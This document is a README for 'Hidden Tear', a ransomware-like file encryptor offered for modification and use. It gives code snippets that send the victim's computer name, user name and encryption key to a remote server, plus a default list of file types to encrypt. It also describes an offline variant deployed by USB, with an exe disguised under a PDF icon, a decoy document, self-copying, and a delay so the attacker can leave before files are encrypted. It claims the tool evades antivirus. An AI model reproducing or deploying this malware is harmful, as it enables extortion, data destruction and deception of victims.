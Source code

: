          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypted in decryption program with encryption key.
* Creates a text file on Desktop with given message.
* Small file size (12 KB)
* Undetectable by antivirus programs (15/08/2015) http://nodistribute.com/result/6a4jDwi83Fzt

**Demonstration Video**

https://www.youtube.com/watch?v=LtiRISepIfs

**Usage**

* You need to have a web server which supports scripting languages like php,python etc. Change this line with your URL. (You better use Https connection to avoid eavesdropping)

  `string targetURL = "https://www.example.com/hidden-tear/write.php?info=";`

* The script should writes the GET parameter to a text file. Sending process running in `SendPassword()` function

  ```
  string info = computerName + "-" + userName + " " + password;
  var fullUrl = targetURL + info;
  var conent = new System.Net.WebClient().DownloadString(fullUrl);
  
  ```
* Target file extensions can be change. Default list:

```
var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
```
## Hidden Tear Offline Edition or: How I Learned to Stop Worrying and Love the Criminal Mind

What if there is a computer with full of important files and what if it has no internet or network connection. We can access it physically. But what if we were being watched, how can we execute hidden tear and get the encryption key?

**Demonstration Video**

https://www.youtube.com/watch?v=ayjv_aAwO0k

**Prerequisites**

Firstly you should have a usb stick which includes:

* exe file of hidden tear offline with a pdf icon.
* a normal pdf file like hotel reservation, ticket, lecture notes (that depends on your social engineering scenario)
* a txt file

**Workflow**

After you plugged usb stick to the computer, double click to .exe file. Don't worry, the normal pdf file will be open.

Hidden tear offline creates an encryption key and saves it into the txt file which is inside your usb stick. After than it copies exe file to the computer and executes. This process will be done in seconds. After than, you can unplug your usb stick.

Hidden tear offline will wait for some time which specified before, lets say 10 minutes. After 10 minutes, it will encrypt all the target files in computer. This part is same with the original hidden tear.

**Usage**

* Hidden tear offline will save the encryption key inside this txt file.

`string usbPassword = "adobe.txt";`

* It copies itself to this path after the first execution.

`string exePath = userDir + userName + "\\table.exe";`

* Name of the normal pdf file.

`System.Diagnostics.Process.Start("ticket.pdf");`

* `Timer1`'s interval represents the encryption start time. If you set it to 600000 miliseconds, encryption action will start after 10 minutes the first execution. If you need more time to leave the scene, you can increase the interval.

## Demo HiddenTear offline guideline 
[Youtube](https://www.youtube.com/watch?v=Pcsy4KMYQE8) 
